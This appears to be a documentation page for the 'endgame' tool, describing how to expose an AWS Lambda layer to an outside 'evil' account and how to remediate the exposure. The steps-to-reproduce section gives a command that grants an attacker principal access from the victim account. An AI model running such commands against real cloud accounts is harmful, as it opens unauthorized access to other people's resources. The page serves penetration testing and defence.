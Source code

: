 # Lambda Layers

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda-layer --name test-resource-exposure:1
```

* To view the contents of the Lambda layer policy, run the following:

```bash
export VICTIM_RESOURCE_ARN=arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure
export VERSION=3
aws lambda get-layer-version-policy \
    --layer-name $VICTIM_RESOURCE_ARN \
    --version-number $VERSION
```

* Observe that the output of the overly permissive Lambda Layer Policy resembles the example shown below.

## Example

Observe that the Evil principal's account ID (`999988887777`) is given `lambda:GetLayerVersion` access to the Lambda layer `arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1`.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"}]}",
    "RevisionId": ""
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that Lambda Layers are only shared with trusted accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Layers. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Layers**: Tightly control access to the following IAM actions:
  - [lambda:AddLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddLayerVersionPermission.html): _Grants permission to add permissions to the resource-based policy of a version of an AWS Lambda layer_
  - [lambda:GetLayerVersionPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetLayerVersionPolicy.html): _Grants permission to view the resource-based policy for a version of an AWS Lambda layer_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:ListLayers](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayers.html): _Grants permission to retrieve a list of AWS Lambda layers, with details about the latest version of each layer_
  - [lambda:ListLayerVersions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayerVersions.html): _Grants permission to retrieve a list of versions of an AWS Lambda layer_
  - [lambda:RemoveLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemoveLayerVersionPermission.html): _Grants permission to remove a statement from the permissions policy for a version of an AWS Lambda layer_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws lambda add-layer-version-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-layer-version-permission.html)
* [aws lambda get-layer-version-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/get-layer-version-policy.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
